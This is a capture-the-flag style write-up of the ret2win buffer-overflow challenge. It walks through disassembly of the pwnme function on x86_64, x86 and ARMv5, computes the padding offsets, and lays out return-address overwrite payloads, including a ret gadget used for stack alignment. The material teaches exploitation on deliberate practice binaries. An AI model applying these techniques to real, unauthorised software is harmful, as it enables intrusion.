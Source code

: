 # ret2win

This is the first of the 8 challenges, it's also the simplest.
All binaries have the same vulnerability which is a buffer overflow in the `pwnme` function.

For this one, we can find the ret2win function by listing symbols of the file with nm.
```
$ nm ret2win
...
0000000000400756 t ret2win  # x86_64
...
0804862c t ret2win          # x86
...
000105ec t ret2win          # ARMv5
...
```
The objective become clear: return from `pwnme` into `ret2win`.
For all architectures, the buffer overflow is a read of 56 bytes into a 32 bytes buffer.

## x86_64: (TODO)
```
0000000000400733 <pwnme + 0x4b>:
  400733:	48 8d 45 e0      lea    rax,[rbp-0x20]
  400737:	ba 38 00 00 00   mov    edx,0x38
  40073c:	48 89 c6         mov    rsi,rax
  40073f:	bf 00 00 00 00   mov    edi,0x0
  400744:	e8 47 fe ff ff   call   400590 <read@plt>
...

0000000000400754 <pwnme + 0x6c>:
  400754:	c9               leave
  400755:	c3               ret
```
We have only the 32 bytes for the buffer, so it will only take 40 bytes to reach the return address.
However, this is a x64 challenge so the stack pointer has to be 16-byte aligned when returning
from functions. To avoid a segfault on an aligned memory move, we can stick the address of a `ret`
instruction before the ret2win address.
```
┌─────────────────────────┐┌─────────────────────────┐
│ buffer                  ││ 20 20 20 20 20 20 20 20 │ <- padding (40 bytes)
│                         ││ 20 20 20 20 20 20 20 20 │
│                         ││ 20 20 20 20 20 20 20 20 │
├─────────────────────────┤│ 20 20 20 20 20 20 20 20 │
│ old_rbp                 ││ 20 20 20 20 20 20 20 20 │
├─────────────────────────┤├─────────────────────────┤
│ ret                     ││ 0x400755                │ <- ret
├─────────────────────────┤├─────────────────────────┤
│ ...                     ││ 0x400756                │ <- ret2win address
└─────────────────────────┘└─────────────────────────┘
```
## x86:
```
08048609 <pwnme + 0x5c>:
 8048609:	6a 38            push   0x38
 804860b:	8d 45 d8         lea    eax,[ebp-0x28]
 804860e:	50               push   eax
 804860f:	6a 00            push   0x0
 8048611:	e8 9a fd ff ff   call   80483b0 <read@plt>
...
0804862a <pwnme + 0x7d>
 804862a:	c9                   	leave
 804862b:	c3                   	ret
```
Since the `leave` instruction is cleaning the stack frame for this function,
and the read call is writing at `[ebp - 0x28]`, we can deduce that the return address will be
at `buffer + 0x28 + 0x4 = buffer + 44`. Thus we need 44 bytes of padding, then the ret2win address
```
┌─────────────┐ ┌─────────────┐
│ buffer      │ │ 20 20 20 20 │ <- padding (44 bytes)
│             │ │ 20 20 20 20 │
│             │ │ 20 20 20 20 │
│             │ │ 20 20 20 20 │
│             │ │ 20 20 20 20 │
├─────────────┤ │ 20 20 20 20 │
│ ...         │ │ 20 20 20 20 │
├─────────────┤ │ 20 20 20 20 │
│ ...         │ │ 20 20 20 20 │
├─────────────┤ │ 20 20 20 20 │
│ old rbp     │ │ 20 20 20 20 │
├─────────────┤ ├─────────────┤
│ ret         │ │ 0x804862c   │ <- ret2win address
└─────────────┘ └─────────────┘
```

## ARM:
```asm
00010570 <pwnme>:
   10570:	e92d4800 	push	{fp, lr}
   10574:	e28db004 	add	fp, sp, #4
   10578:	e24dd020 	sub	sp, sp, #32
...
000105b0 <pwnme + 0x40>:
   105b0:	e24b3024 	sub	r3, fp, #36
   105b4:	e3a02038 	mov	r2, #56
   105b8:	e1a01003 	mov	r1, r3
   105bc:	e3a00000 	mov	r0, #0
   105c0:	ebffff80 	bl	103c8 <read@plt>
...
000105d0 <pwnme + 0x60>:
   105d0:	e24bd004 	sub	sp, fp, #4
   105d4:	e8bd8800 	pop	{fp, pc}
```
In ARMv5, the return address is the `lr` register.   
So in order to overwrite it, we need 36 bytes of padding, then the ret2win address.   
```bash
┌─────────────┐  ┌─────────────┐
│ buffer      │  │ 20 20 20 20 │ <- padding (36 bytes)
│             │  │ 20 20 20 20 │
│             │  │ 20 20 20 20 │
│             │  │ 20 20 20 20 │
│             │  │ 20 20 20 20 │
│             │  │ 20 20 20 20 │
│             │  │ 20 20 20 20 │
├─────────────┤  │ 20 20 20 20 │
│ old fp      │  │ 20 20 20 20 │
├─────────────┤  ├─────────────┤
│ lr          │  │ 0x105ec     │ <- ret2win address
└─────────────┘  └─────────────┘
```
